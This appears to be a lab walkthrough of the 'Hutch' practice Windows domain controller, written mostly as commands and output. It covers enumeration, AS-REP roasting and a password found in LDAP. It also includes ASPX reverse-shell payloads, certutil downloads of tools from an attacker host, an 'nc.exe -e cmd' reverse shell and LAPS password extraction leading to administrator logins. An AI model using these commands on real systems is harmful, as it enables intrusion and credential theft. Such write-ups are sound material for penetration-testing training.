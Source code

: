 ### SMB
```bash
smbmap -H hutch.offsec
smbmap -H hutch.offsec -u null -p ''
smbmap -H hutch.offsec -u admin -p ''
```
nothing

### rpcclient
```bash
❯ rpcclient -U "" -N $IP
rpcclient $> enumdomusers
result was NT_STATUS_ACCESS_DENIED
rpcclient $> querydominfo
result was NT_STATUS_ACCESS_DENIED
rpcclient $> querydominfo
result was NT_STATUS_ACCESS_DENIED

rpcclient -U "admin" -N $IP
```
nothing

### DNS
nslookup nothing

```bash
nmap --script dns-srv-enum --script-args "dns-srv-enum.domain='hutch.offsec'" $IP -v
```

53/tcp   open  domain
80/tcp   open  http
88/tcp   open  kerberos-sec
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
389/tcp  open  ldap
445/tcp  open  microsoft-ds
464/tcp  open  kpasswd5
593/tcp  open  http-rpc-epmap
636/tcp  open  ldapssl
3268/tcp open  globalcatLDAP
3269/tcp open  globalcatLDAPssl

NSE: Script Post-scanning.
Initiating NSE at 11:29
Completed NSE at 11:29, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 11.83 seconds
zsh: segmentation fault  nmap --script dns-srv-enum --script-args "dns-srv-enum.domain='hutch.offsec'"

### kerbrute to build a name list
```bash
/opt/kerbrute_linux_amd64 userenum -d hutch.offsec --dc $IP /usr/share/wordlists/seclists/Usernames/Names/names.txt
```
admin@hutch.offsec

```bash
echo admin >> valid_users.txt
echo admin@hutch.offsec >> valid_users.txt
```

### ldapdomaindump
`ldapdomaindump hutch.offsec` <- fatal failed

### windapsearch GO
```bash
/opt/windapsearch-linux-amd64 -d $IP -m users --full > windapsearch_go_user_full.txt

cat windapsearch_go_user_full.txt | awk '{print $1}' | sort | uniq -c | sort -nr

cat windapsearch_go_user_full.txt | grep -i "@hutch.offsec" | awk '{print $2}' >> valid_users.txt

cat windapsearch_go_user_full.txt | grep -i "@hutch.offsec" | awk '{print $2}' | cut -d '@' -f1 >> valid_users.txt
```

### AS-REP Roasting
```bash
impacket-GetNPUsers hutch.offsec/ -dc-ip $IP -no-pass -usersfile valid_users.txt
```

### SMB again
```bash
for u in $(cat just_names.txt); do smbmap -u $u -p '' -H $IP; done
```

### rpcclient again
```bash
for u in $(cat just_names.txt); do rpcclient -U $u -N $IP; done
```

### Overlooked !!
```bash
cat windapsearch_go_user_full.txt | grep -i "pass"

decription: Password set to CrabSharkJellyfish192 at user's request. Please change on next login. <- fmcsorley

or 

ldapsearch -x -H ldap://$IP -b "DC=hutch,DC=offsec" | grep description
```

```bash
crackmapexec winrm $IP -u fmcsorley -p 'CrabSharkJellyfish192'
crackmapexec smb $IP -u fmcsorley -p 'CrabSharkJellyfish192'
```

SMB         192.168.243.122 445    HUTCHDC          [+] hutch.offsec\fmcsorley:CrabSharkJellyfish192

### SMB fmcsorley
```bash
smbmap -H hutch.offsec -u fmcsorley -p 'CrabSharkJellyfish192'
```

[+] IP: hutch.offsec:445        Name: unknown                                           
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        C$                                                      NO ACCESS       Default share
        IPC$                                                    READ ONLY       Remote IPC
        NETLOGON                                                READ ONLY       Logon server share 
        SYSVOL                                                  READ ONLY       Logon server share 

##### IPC$
```bash
smbmap -H hutch.offsec -u fmcsorley -p 'CrabSharkJellyfish192' -R IPC$ --depth 10

smbget -R smb://192.168.243.122/IPC$/* -U=fmcsorley%CrabSharkJellyfish192

# smbclient failed
smbclient //192.168.243.122/IPC$ -U=fmcsorley%CrabSharkJellyfish192
smbclient \\\\192.168.243.122\\IPC$ -U=fmcsorley%CrabSharkJellyfish192
smbclient //hutch.offsec/IPC$ -U=fmcsorley%CrabSharkJellyfish192
```

##### SYSVOL
```bash
smbclient //192.168.243.122/SYSVOL -U=fmcsorley%CrabSharkJellyfish192
```
nothing interesting from SMB

### WebDav https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/put-method-webdav
##### nmap 80
http-iis-webdav-vuln: Could not determine vulnerability, since root folder is password protected
##### nikto -h $IP
+ WebDAV enabled (LOCK UNLOCK COPY PROPPATCH MKCOL PROPFIND listed as allowed)

##### cadaver is easier than DavTest or curl
```bash
❯ cadaver $IP
dav:!> open http://192.168.243.122/
Authentication required for 192.168.243.122 on server `192.168.243.122':
Username: fmcsorley
Password: 
dav:/> put just_names.txt
Uploading just_names.txt to `/just_names.txt':
Progress: [=============================>] 100.0% of 121 bytes succeeded.
```

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.49.243 LPORT=80 -f aspx -o shell.aspx
msfvenom -p windows/x64/shell/reverse_tcp LHOST=192.168.49.243 LPORT=80 -f aspx -o shell2.aspx
msfvenom -p windows/x64/shell/reverse_tcp LHOST=192.168.49.243 LPORT=9389 -f aspx -o shell3.aspx
msfvenom -p windows/x64/shell/reverse_tcp LHOST=192.168.49.243 LPORT=445 -f aspx -o shell4.aspx
```

msfvenom is not very good at aspx shell. Go with links below.
* https://jiveturkey.rocks/tactics/2021/09/21/asp-reverse-shell.html
* https://github.com/borjmz/aspx-reverse-shell

### Stable shell by nc.exe
```
certutil -urlcache -f http://192.168.49.243/nc.exe nc.exe

nc.exe -e cmd 192.168.49.243 9389
```
actually, didn't help much.

### Root ms-MCS-AdmPwd
##### credentials hunting failed as nothing
```
certutil -urlcache -f http://192.168.49.243/lazagne.exe lazagne.exe

certutil -urlcache -f http://192.168.49.243/winPEASany.exe winPEASany.exe
```

.\winPEASany.exe cmd fast > winpeas_fast

powershell.exe -command "& {Get-Content *winpeas_fast* -TotalCount 500}"
powershell.exe -command "& {Get-Content *winpeas_fast* -Head 1000}" <- 1000 is max

powershell select-string -Path c:\windows\temp\winpeas_fast -Pattern ms-Mcs-AdmPwd
powershell.exe select-string -Path c:\windows\temp\winpeas_fast -Pattern "J6QOuU"

##### Nothing but I don't want to try potato this time
After going through the system we do see that LAPS has been installed on the server. `dir c:\Program Files\Laps`.

Its possible that LAPS or LDAP has been misconfigured enough to potentially contains the computer passwords for computer object in AD. Knowing this we can go back and search LDAP with the credentials with have specifically looking for the ms-Mcs-AdmPwd attribute.


```bash
/opt/windapsearch-linux-amd64 -d $IP -m users -u fmcsorley@hutch.offsec -p CrabSharkJellyfish192 --full > windapsearch_go_withcred_user_full.txt
```

##### ldapsearch as I failed using windapsearch
```bash
ldapsearch -x -H ldap://$IP -D 'hutch\fmcsorley' -w 'CrabSharkJellyfish192' -b "DC=hutch,DC=offsec" > ldapsearch_all.txt
cat ldapsearch_all.txt | grep -i 'pwd'

or

ldapsearch -x -H ldap://$IP -D 'hutch\fmcsorley' -w 'CrabSharkJellyfish192' -b "DC=hutch,DC=offsec" "(ms-MCS-AdmPwd=*)" ms-MCS-AdmPwd 
```

https://adsecurity.org/?tag=ms-mcs-admpwd

`evil-winrm -i $IP -u administrator -p ".Q#P8i3$+hI0Ds"`

```bash
python3 /usr/share/doc/python3-impacket/examples/psexec.py hutch.offsec/administrator:'.Q#P8i3$+hI0Ds'@hutch.offsec
```